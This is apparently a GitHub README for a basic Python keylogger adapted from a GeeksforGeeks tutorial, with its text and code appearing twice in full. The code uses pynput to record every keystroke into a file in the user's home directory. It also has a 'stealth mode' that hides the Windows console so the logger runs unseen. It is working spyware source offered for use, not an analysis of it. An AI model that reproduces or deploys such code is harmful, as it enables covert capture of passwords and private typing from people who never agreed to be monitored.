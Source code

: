 # Basic Keylogger in Python

This repository contains a **basic keylogger** written in Python. The project serves as a simple demonstration of how keylogging can be implemented, along with some optimizations for error handling and special character support.

## Introduction

The original code for this project was adapted from a [GeeksforGeeks tutorial on keyloggers](https://www.geeksforgeeks.org/design-a-keylogger-in-python/). After analyzing the initial implementation, I identified several issues related to:

- Handling errors during the logging process.
- Properly capturing special characters and exceptions (e.g., Enter, Space, Backspace).
- Writing the keystrokes efficiently to a `.txt` file.
- Compatibility with newer Python versions and libraries.

## Optimizations

After reviewing and testing the original code, I made the following improvements:

- **Error Handling**: Improved the exception handling to ensure smooth execution without crashes.
- **Special Key Support**: Correctly mapped special characters like `Enter`, `Space`, `Tab`, and `Backspace`, making the output more readable.
- **Updated Libraries**: Replaced outdated dependencies like `pyHook` with more modern libraries like `pynput`, ensuring compatibility with Python 3.x.
- **Stealth Mode**: The script now runs silently in the background by hiding the console window on Windows systems.
- **File Output**: Keystrokes are appended efficiently to the output file.

## Example Output

Here’s a snapshot of the keylogger running and capturing keystrokes:

![output example](https://github.com/user-attachments/assets/e51a1bb4-287e-46aa-ad66-9eca01be9286)

## Updated Code

Here’s the optimized Python keylogger code:

```python
import os
from pynput import keyboard
import win32console
import win32gui

# Hide the console window (Windows only)
win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

# Define the log file path (in the user's home directory)
log_file_path = os.path.join(os.path.expanduser("~"), "output.txt")

# Function that is called whenever a key is pressed
def press(key):
    try:
        key_str = str(key).replace("'", "")  # Clean up the key string

        # Handle special keys and control characters
        if key == keyboard.Key.enter:
            key_str = '\n'
        elif key == keyboard.Key.space:
            key_str = ' '
        elif key == keyboard.Key.tab:
            key_str = '\t'
        elif key == keyboard.Key.backspace:
            key_str = '[BACKSPACE]'
        elif key == keyboard.Key.esc:
            print("Shutting down keylogger...")
            return False

        # Append the key press to the log file
        with open(log_file_path, 'a') as f:
            f.write(key_str)

    except Exception as e:
        print(f"Error: {e}")

# Start the listener to capture keystrokes
with keyboard.Listener(on_press=press) as listener:
    listener.join()
# Basic Keylogger in Python

This repository contains a **basic keylogger** written in Python. The project serves as a simple demonstration of how keylogging can be implemented, along with some optimizations for error handling and special character support.

## Introduction

The original code for this project was adapted from a [GeeksforGeeks tutorial on keyloggers](https://www.geeksforgeeks.org/design-a-keylogger-in-python/). After analyzing the initial implementation, I identified several issues related to:

- Handling errors during the logging process.
- Properly capturing special characters and exceptions (e.g., Enter, Space, Backspace).
- Writing the keystrokes efficiently to a `.txt` file.
- Compatibility with newer Python versions and libraries.

## Optimizations

After reviewing and testing the original code, I made the following improvements:

- **Error Handling**: Improved the exception handling to ensure smooth execution without crashes.
- **Special Key Support**: Correctly mapped special characters like `Enter`, `Space`, `Tab`, and `Backspace`, making the output more readable.
- **Updated Libraries**: Replaced outdated dependencies like `pyHook` with more modern libraries like `pynput`, ensuring compatibility with Python 3.x.
- **Stealth Mode**: The script now runs silently in the background by hiding the console window on Windows systems.
- **File Output**: Keystrokes are appended efficiently to the output file.

## Example Output

Here’s a snapshot of the keylogger running and capturing keystrokes:

![output example](https://github.com/user-attachments/assets/e51a1bb4-287e-46aa-ad66-9eca01be9286)

## Updated Code

Here’s the optimized Python keylogger code:

```python
import os
from pynput import keyboard
import win32console
import win32gui

# Hide the console window (Windows only)
win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

# Define the log file path (in the user's home directory)
log_file_path = os.path.join(os.path.expanduser("~"), "output.txt")

# Function that is called whenever a key is pressed
def press(key):
    try:
        key_str = str(key).replace("'", "")  # Clean up the key string

        # Handle special keys and control characters
        if key == keyboard.Key.enter:
            key_str = '\n'
        elif key == keyboard.Key.space:
            key_str = ' '
        elif key == keyboard.Key.tab:
            key_str = '\t'
        elif key == keyboard.Key.backspace:
            key_str = '[BACKSPACE]'
        elif key == keyboard.Key.esc:
            print("Shutting down keylogger...")
            return False

        # Append the key press to the log file
        with open(log_file_path, 'a') as f:
            f.write(key_str)

    except Exception as e:
        print(f"Error: {e}")

# Start the listener to capture keystrokes
with keyboard.Listener(on_press=press) as listener:
    listener.join()
